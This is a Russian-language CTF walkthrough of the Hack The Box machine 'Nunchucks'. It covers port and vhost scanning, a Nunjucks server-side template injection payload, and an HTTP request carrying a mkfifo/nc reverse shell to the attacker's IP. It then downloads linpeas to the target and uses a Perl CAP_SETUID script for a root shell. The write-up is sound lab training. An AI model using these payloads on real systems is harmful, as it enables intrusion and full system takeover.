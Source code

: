 # 🟢 Nunchucks (Linux, Easy)

![](<../../../../.gitbook/assets/1 (1) (1).png>)

### Содержание:

Nunchucks - легкая машина, название которой уже дает отсылку на шаблонизатор, а где шаблонизаторы - там SSTI. Просканировав порты, мы увидим ssh, http и https. Затем профаззим поддомены и найдем тот, который использует шаблонизатор Nunchucks. Загуглив для него вулны, найдем SSTI-эксплоит и получим реверс шелл. Затеем повысим наши привилегии в системе с помощью CAP\_SETUID perl'а.

### Сканируем порты с помощью nmap:

```bash
$ nmap -sC -sV 10.10.11.122 -oN nmap
```

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorse/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
```

![](../../../../.gitbook/assets/2.png)

Как бы я не пытался зарегистрироваться/залогиниться - не получалось. Фаззим поддомены:

```
$ gobuster vhost -u nunchucks.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 40
```

```
Found: store.nunchucks.htb
```

Нашли поддомен, вставляем его в наш конфиг:

```
$ sudo vim /etc/hosts
```

```
10.10.11.122 store.nunchucks.htb nunchucks.htb
```

### Эксплуатируем SSTI в Nunchucks:

![](<../../../../.gitbook/assets/3 (1).png>)

![](<../../../../.gitbook/assets/4 (1) (1) (1).png>)

На поддомене есть `SSTI(Server Side Template Injection)` уязвимость. Дальше `{% raw %}{{7*7}}{% endraw %}` продвинуться не удавалось, но имя машины дает некоторый хинт. `Nunjucks` - это шаблонизатор для `Jinja2`, используемый для разработки веб-приложений на веб-фреймворках `Node.js`, таких как `Express` или `Connect`. Найдя [пэйлоад](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine), пытаемся его эксплуатировать:

```django
{% raw %}{{range.constructor("return global.process.mainModule.require('fs')")()}}{% endraw %}
```

![](<../../../../.gitbook/assets/5 (1) (1).png>)

Чтобы эксплуатировать `RCE`, нужно поставить nc и запустить пэйлоад:

```
$ nc -nlvp 9999
```

Запрос с пэйлоадом в email:

```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=2RciWC895_oUpc9MqIt9QIx1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 189
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close
{
    "email":"{% raw %}{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.36 9999 >/tmp/f')\")()}}{% endraw %}"
}
```

![](<../../../../.gitbook/assets/6 (1).png>)

### Повышаем привилегии с помощью CAP\_SETUID + Perl

Для того, чтобы просканировать систему на уязвимости и мисконфиги, нужно:

* Скачать linpeas к себе:

```
$ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

* Поднять python-сервер:

```
$ python3 -m http.server
```

Кстати, чтобы узнать свой локальный IP-адрес в VPN можно воспользоваться утилитой ip(ваш IP должен соответствовать интерфейсу tun0):

```
$ ip r | grep tun0
```

```
10.10.16.0/23 dev tun0 proto kernel scope link src 10.10.16.36
```

* На машину, которую нужно проверить, скачиваем linpeas с нашего веб-сервера и запускаем:

```
$ wget 10.10.16.36:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

![](../../../../.gitbook/assets/7.png)

Linpeas запустился и очень много строк про конфиги машины, нам же нужна только эта строка:

![](../../../../.gitbook/assets/8.png)

Тут и содержится уязвимость(CAP\_SETUID): setuid и setgid являются флагами прав доступа в Unix, которые разрешают пользователям запускать исполняемые файлы с правами владельца или группы исполняемого файла. То есть можно без привилегий поменять себе идентификатор(uid) и стать рутом(у рута uid=0). Но это все можно сделать в одну команду и одной строкой, так как тут есть защита AppArmor. Поэтому нужно создать отдельный файл и записать в него вредоносный код:

```
$ touch exploit.pl
$ echo "#!/usr/bin/perl" >> exploit.pl
$ echo "use POSIX qw(setuid);" >> exploit.pl
$ echo "POSIX::setuid(0);" >> exploit.pl
$ echo 'exec "/bin/sh";' >> exploit.pl
$ chmod +x exploit.pl
```

![](<../../../../.gitbook/assets/9 (1).png>)
